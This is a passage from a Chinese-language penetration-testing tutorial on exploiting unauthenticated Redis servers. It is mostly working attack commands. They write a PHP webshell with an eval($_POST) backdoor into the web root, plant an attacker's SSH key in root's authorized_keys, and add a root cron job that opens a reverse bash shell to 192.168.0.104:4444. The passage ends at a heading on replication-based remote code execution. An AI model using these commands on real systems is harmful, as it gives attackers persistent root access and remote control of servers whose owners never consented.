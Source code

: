 Redis 与 memcached 一样，为了保证效率，数据都是缓存在内存中。但 Redis 会周期性的把更新的数据写入磁盘或者把修改操作写入追加的记录文件，并且在此基础上实现了 master-slave (主从) 同步。

### [](#redis-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E)redis 未授权访问漏洞

默认的配置是使用 6379 端口，没有密码。这时候会导致未授权访问读写 Redis 数据。

#### [](#%E5%9C%A8-web-%E7%9B%AE%E5%BD%95%E4%B8%8B%E5%86%99%E5%85%A5-webshell)在 web 目录下写入 Webshell

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>config set dir /var/www/html<br>config set dbfilename webshell.php<br>set webshell "<?php phpinfo();?>"<br>save<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200512150346.png-water_print](assets/1699409321-a988037dc226161d79823b6374bfbfd6.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200512150346.png-water_print")

当数据库过大时，redis 写 shell 的小技巧：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```php<br><?php <br>set_time_limit(0);<br>$fp=fopen('webshell.php','w');<br>fwrite($fp,'<?php @eval($_POST[1]);?>');<br>exit();<br>?><br>``` |

#### [](#%E5%86%99-ssh-%E5%85%AC%E9%92%A5)写 ssh 公钥

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>ssh-keygen -t rsa<br>cd .ssh<br>(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > 1.txt<br>cat 1.txt \| redis-cli -h ip -x set payload<br>config set dir /root/.ssh<br>config set dbfilename authorized_keys<br>save<br>``` |

#### [](#%E5%86%99-crontab)写 crontab

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>redis-cli -h 192.168.0.104<br>set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.104/4444 0>&1\n\n"<br>config set dir /var/spool/cron<br>config set dbfilename root<br>save<br>``` |

### [](#%E5%88%A9%E7%94%A8-redis-%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6-rce)利用 redis 主从复制 rce
